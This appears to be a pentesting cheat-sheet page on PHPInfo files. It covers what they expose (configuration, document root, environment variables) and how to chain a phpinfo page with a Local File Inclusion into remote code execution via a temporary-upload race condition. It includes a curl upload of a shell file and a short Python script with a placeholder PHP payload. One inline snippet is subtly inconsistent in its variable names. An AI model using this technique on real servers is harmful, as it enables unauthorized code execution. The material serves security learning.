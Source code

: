 # PHPInfo

<div class="row row-cols-lg-2"><div>

PHPInfo is a file that display information about the PHP configuration and sometimes the Apache configuration.

* It's sometimes hidden on webservers
* It's sometimes present on webservers with access control
* It can be created by exploiting a vulnerability

When using WAMP, it's available at `/?phpinfo=-1`.
</div><div>

We can usually find at least:

* 📚 The PHP Version
* 🗺️ The PHP Configuration <small>(allow_url_fopen, disable_functions, etc.)</small>
* 🧨 The List Of Enabled Modules <small>(XDebug, etc.)</small>
* ✍️ The `Hostname:Port` internally used by the webserver
* 🛣️ The `DOCUMENT_ROOT` of the webserver <small>(tune attacks)</small>
* ⚠️ The `Environment` variables, which can contain sensitive data
</div></div>

<hr class="sep-both">

## From LFI To RCE

<div class="row row-cols-lg-2"><div>

If we have access to a LFI and there is no suffix appended, such as `include('pages/'.$_GET['page'])`, we can exploit the PHPInfo via a Race Condition and the LFI to get a RCE.

* `curl "URL/phpinfo.php" -F "file=/path/to/shell.php"`
* `cat /tmp/fif3cd4is` contains the uploaded file
* The file is deleted when the request is completed
* The page "URL/phpinfo.php" contains the path to the uploaded file

On Linux, the path is fairly short so we can use `index = r.text.index(b"[tmp_name] =&gt"); path = r.text[i+17:i+31]`. On Windows, you must perform an initial test to avoid regexes.
</div><div>

```py
import requests
import re

tmp_name_pattern = re.compile(r'\[tmp_name]\s*=&gt;\s+(.*)')

r = requests.post(
    'http://localhost/phpinfo.php',
    files={
        'file': ('file', b'<?php /*YOUR PHP CODE*/ ?>')
    }
)
match = tmp_name_pattern.search(r.text)
path = match.group(1)
# Use {path} quickly in your LFI
```
</div></div>